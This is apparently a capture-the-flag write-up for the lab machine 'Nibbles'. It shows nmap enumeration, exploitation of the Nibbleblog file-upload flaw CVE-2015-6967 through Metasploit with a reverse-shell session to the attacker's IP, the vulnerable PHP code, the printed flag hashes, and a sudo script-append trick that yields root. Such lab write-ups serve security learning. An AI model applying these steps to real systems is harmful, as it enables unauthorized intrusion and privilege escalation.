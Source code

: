 ## Information

| Property     | Value                       |
|--------------|-----------------------------|
| **Name**     |  Nibbles |
| **IP Address**|    10.10.10.75    |
| **OS**       |    Linux     |
| **Difficulty**|   Easy |

## Enumeration
### Nmap Scan
```bash
nmap -sC -sV -oN nmap_scan.txt -Pn 
```

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
## Initial Access
### Port [80] - [Web Service]

Subdirectory exposed via HTML comments:
http://10.10.10.75/nibbleblog/

```html
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```
#### Vulnerability Exploited

Nibbleblog is vulnerable to unrestricted file upload [CVE-2015-6967](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-6967) which can be exploited via metasploit: 
```shell
msf6 exploit(multi/http/nibbleblog_file_upload) > run
[*] Started reverse TCP handler on 10.10.14.6:4444 
[*] Sending stage (39927 bytes) to 10.10.10.75
[+] Deleted image.php
[*] Meterpreter session 3 opened (10.10.14.6:4444 -> 10.10.10.75:60844) at 2023-11-19 18:45:26 +0100
meterpreter >
```

#### CVE-2015-6967

##### Vulnerability Description:

When uploading image files via the "My image" plugin - which isdelivered with NibbleBlog by default - , NibbleBlog 4.0.3 keeps theoriginal extension of uploaded files. This extension or the actual filetype are not checked, thus it is possible to upload PHP files and gaincode execution.

##### Vulnerable Code Snippet

```php
          if( $plugin->init_db() )
          {
            // upload files
            foreach($_FILES as $field_name=>$file)
            {
              $extension = strtolower(pathinfo($file['name'],
PATHINFO_EXTENSION));
              $destination = PATH_PLUGINS_DB.$plugin->get_dir_name();
              $complete = $destination.'/'.$field_name.'.'.$extension;
              // Upload the new file and move
              if(move_uploaded_file($file["tmp_name"], $complete))
              {
                // Resize images if requested by the plugin
                if(isset($_POST[$field_name.'_resize']))
                {
                  $width =
isset($_POST[$field_name.'_width'])?$_POST[$field_name.'_width']:200;
                  $height =
isset($_POST[$field_name.'_height'])?$_POST[$field_name.'_height']:200;
                  $option =
isset($_POST[$field_name.'_option'])?$_POST[$field_name.'_option']:'auto';
                  $quality =
isset($_POST[$field_name.'_quality'])?$_POST[$field_name.'_quality']:100;
                  $Resize->setImage($complete, $width, $height, $option);
                  $Resize->saveImage($complete, $quality, true);
                }
              }
            }
            unset($_POST['plugin']);
            // update fields
            $plugin->set_fields_db($_POST);
            Session::set_alert($_LANG['CHANGES_HAS_BEEN_SAVED_SUCCESSFULLY']);
          }
        }

```

### User Access



#### User Flag

``9698fdd4c3518fa27450a0e6141c70b1
## Privilege Escalation

User nibbler can run with high privileges:  
```
sudo -l 
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

```

Adding /bin/sh to the end of the script and executing it as root gives us a high privileged shell: 
```
echo /bin/sh >> monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
'unknown': I need something more specific.
/home/nibbler/personal/stuff/monitor.sh: 26: /home/nibbler/personal/stuff/monitor.sh: [[: not found
/home/nibbler/personal/stuff/monitor.sh: 36: /home/nibbler/personal/stuff/monitor.sh: [[: not found
/home/nibbler/personal/stuff/monitor.sh: 43: /home/nibbler/personal/stuff/monitor.sh: [[: not found
id
uid=0(root) gid=0(root) groups=0(root)
```

#### Root Flag

``ac3b91864ccc3ca85257334ac3cd3ccb

## Conclusion


## Additional Notes


## Resources
